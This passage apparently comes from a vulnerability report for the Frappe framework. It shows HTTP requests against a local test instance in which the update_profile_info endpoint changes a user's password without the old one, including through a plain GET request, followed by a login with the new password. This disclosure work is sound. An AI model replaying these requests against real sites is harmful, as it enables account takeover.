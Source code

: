 **Request:**
```http
POST /api/method/frappe.desk.page.user_profile.user_profile.update_profile_info HTTP/1.1
Host: localhost:8080
Cookie: sid=a4c9818f005fa628d936b0937e0b8da3486167b11ff1ff9a87767ab7
Content-Type: application/x-www-form-urlencoded
X-Frappe-CSRF-Token: 1a387f9fab855dc76392434eb45af7ced7c1fa7541536018b2ecf838
Content-Length: 44

profile_info={"new_password"%3a"0xdeadbeef"}
```

**Response:**
```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Fri, 16 May 2025 09:28:44 GMT
Content-Type: application/json
<SNIP>
```
After this first POST request GET requests can also be used to change the password for some reason.

**Request:**
```http
GET /api/method/frappe.desk.page.user_profile.user_profile.update_profile_info?profile_info={"new_password"%3a"0xdeadbeef123"} HTTP/1.1
Host: localhost:8080
Cookie: sid=a4c9818f005fa628d936b0937e0b8da3486167b11ff1ff9a87767ab7
```

**Response:**
```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Fri, 16 May 2025 09:32:12 GMT
Content-Type: application/json
Content-Length: 2044
<SNIP>
```
And after the password is changed user can login with the new credentials `0xdeadbeef123`.

**Request:**
```http
POST /login HTTP/1.1
Host: localhost:8080
X-Requested-With: XMLHttpRequest
Content-Length: 47
Content-Type: application/x-www-form-urlencoded

cmd=login&usr=test1@test.test&pwd=0xdeadbeef123
```

**Response:**
```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Fri, 16 May 2025 09:32:18 GMT
Content-Type: application/json
Content-Length: 57
Connection: keep-alive
Set-Cookie: sid=aecdcadc69852d2b9874d238b9ae3bb4206f70d27af00b92e8ee9b10; Expires=Fri, 23 May 2025 11:32:18 GMT; Max-Age=612000; HttpOnly; Path=/; SameSite=Lax
<SNIP>
```
